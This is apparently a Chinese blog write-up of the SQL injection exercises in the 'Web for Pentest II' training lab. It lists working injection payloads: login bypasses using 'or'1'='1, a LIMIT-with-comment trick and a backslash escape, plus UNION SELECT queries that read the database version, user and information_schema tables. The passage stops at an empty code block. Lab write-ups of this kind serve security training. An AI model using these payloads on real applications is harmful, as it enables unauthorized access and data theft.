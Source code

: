 title: web_for_pentest_II writeup
date: 2016-03-30 10:52:08
tags:
- ctf
- Blogs
categories:
- Blogs
---
听说新出了web for pentest2，正好没什么事，那就来做做看吧...



# SQL injections

## example1
打开看到是一个登陆框，猜测是没有过滤，那么先输入个单引号吧，看看有没有什么过滤。
看到回显
```
Mysql2::Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''' AND password=''' at line 1: SELECT * FROM users WHERE username=''' AND password=''
```
那么登陆吧，不知道为什么username处永真无效...
```
username=admin&password=123'or'1'='1
```
想看看后台是怎么写的，结果发现全部都是rubyweb实现...

## example2
居然又是个登陆框，而且好像没什么过滤，就是过不了，一脸懵比，去看了后台源码发现需要只查出来一条数据，那么简单
payload:
```
username=admin&password=123'or+1+limit+1#
```

## example3
一脸懵比，居然又是登陆框，稍微测试了下发现单引号被过滤了，那么想想有查询两个字段，那么可以用反斜杠
```
username=\&password=||1#
```
这样可以转义掉本来包括username的单引号，username会包括&password=，然后构造就可以过了

## example4
这回终于是个查询了，打开发现是这样的
```
?req=username='hacke'
```
那么构造句测试下发现并没有过滤，那么开始注吧
```
req=username='hacke' union select version(),user(),3
```
```
id	name
5.1.66-0+squeeze1	pentesterlab@localhost
```
顺便找到表名sqlinjection_example4
看看表里的列名
```
req=username='hacke' union select table_name,2,3 from information_schema.tables where table_schema = 'sqlinjection_example4'
```
然而只有`users`
里面啥也没有
```
```